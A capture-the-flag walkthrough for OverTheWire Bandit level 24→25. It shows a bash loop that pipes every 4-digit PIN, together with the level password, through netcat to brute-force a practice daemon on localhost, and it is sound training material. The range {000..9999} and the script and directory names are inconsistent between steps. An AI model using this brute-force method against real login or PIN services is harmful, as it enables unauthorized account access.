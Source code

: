 # Bandit Level 24 → Level 25

## Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

--- 

## Walkthrough

For this challenge we need to send a password to a specific port on localhost, we have done this before on previous levels but the difference this time is that we need to send a 4 digit pincode with the password.  
Unfortunately we do not know what the pincode is so we will need to try all possible combinations until we get the right one.


Login to the server using the password obtained from the previous level [Bandit level 23 -> 24](../bandit23-24/README.md). 

username: `bandit24` 

```ssh
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

The first thing to do is to connect to port 30002 and see what it is doing.  
We can use netcat to connect to port 30002 on localhost.

```console
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTr########################## 1234
Wrong! Please enter the correct pincode. Try again.

Fail! You did not supply enough data. Try again.
UoMYTr 124
Wrong! Please enter the correct current password. Try again.

bandit24@bandit:~$
```

What we can see is that the daemon running on port 30002 wants the data entered in a specific format.  
```<BANDIT24 PASSWORD> <4 DIGIT PIN>```

The daemon first checks if the password is correct before checking the pincode.  
If the password is incorrect we get a message stating that the password was incorrect. The pincode is not checked.  
If the password is correct and the pincode is incorrect we get a different message stating the pincode is incorrect.
Since we are using the same password used to login to this level we should not see the password incorrect message.

The daemon wants a 4 digit pincode so we need to check all pincodes from 0000 to 9999 to find the correct one.  
Doing this by hand would take a long time (10,000 pincodes to check). It is more efficient to create a program to do this for us.


First lets create a directory in `/tmp` to work from

```console
bandit24@bandit:~$ mkdir /tmp/michael
bandit24@bandit:~$ cd /tmp/michael
bandit24@bandit:/tmp/micheal$
```

Now to create a bash script to create all 10,000 password pincode combinations we need to test.
I used vim to create a file try_passwords.sh and wrote this code into it.

```bash
#!/bin/bash

for i in {000..9999}
do
    echo UoMYTr************************** $i 
done
```

The code will create all 4 digit pincodes we need.
Next we need to give the file execute permissions

```console
bandit24@bandit:/tmp/micheal$ chmod +x try_password.sh
```

Now all thats left is to run the bash script and send it's output to netcat.  
This will run for a while as it is trying 10,000 pincodes but eventually you will see the correct message and get the password for bandit25.

```console
bandit24@bandit:/tmp/micheal$ ./try_pass.sh | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O5##########################

Exiting.
bandit24@bandit:/tmp/micheal$
```